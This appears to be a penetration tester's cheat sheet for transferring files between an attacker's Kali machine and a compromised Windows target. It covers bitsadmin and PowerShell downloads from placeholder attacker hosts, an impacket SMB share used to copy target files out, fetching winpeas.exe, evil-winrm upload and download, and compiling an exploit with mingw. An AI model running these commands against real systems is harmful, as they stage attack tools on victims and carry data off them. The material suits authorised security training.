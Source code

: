 on target:
```
bitsadmin /create MyDownload

bitsadmin /addfile MyDownload http://<ip>:<port>/<s_path> <d_path>

bitsadmin /resume MyDownload

bitsadmin /info MyDownload /verbose

bitsadmin /complete MyDownload
```

##### powershell

```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<ip>:<port>/<s_path>', '<d_path>')
```

```
Invoke-WebRequest -URI http://<ip>:<port>/<s_path> -OutFile <d_path>
```



##### SMB

on kali
```
impacket-smbserver test . -smb2support  -username test -password test
```

on windows:
```
net use m: \\Kali_IP\test /user:test test 
copy <traget_file> m:\
```

download files from kali to target
```
copy \\<IP>\TEST\winpeas.exe
```
##### evil-winrm

after create a shell using evil-winrm using built in moduls

```
upload <s_path> <d_path>
```

```
download <s_path> <d_path>
```

### compile

arch x86_64 windows machine
```
x86_64-w64-mingw32-gcc exploit.c -o exploit.exe
```
